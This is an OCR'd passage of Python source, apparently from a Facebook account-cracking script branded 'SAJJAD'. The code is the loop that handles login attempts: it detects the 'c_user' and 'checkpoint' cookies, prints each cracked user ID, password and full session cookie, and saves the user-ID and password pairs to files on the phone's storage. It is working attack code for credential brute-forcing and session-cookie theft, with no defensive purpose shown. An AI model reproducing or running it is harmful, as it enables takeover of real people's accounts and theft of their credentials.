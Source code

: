             log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\r\033[1;32m[SAJJAD-OK💚] \033[0;97m'+uid+'\033[1;32m | \033[0;93m' +ps+    '  \n[‎‎🌺]\033[0;93m COOKIE = \033[1;32m'+coki+  '  ''  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/SAJJAD-OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                #print('\r\r\33[1;30m[MKR-CP] ' +uid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/SAJJAD-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\r%s{x}[{xr}SAJJAD{x}][%s|%s][OK:{xr}%s{x}]'%(H,loop,tl,len(oks))),
        sys.stdout.flush()
    except:
        pass
 
xxr()
 
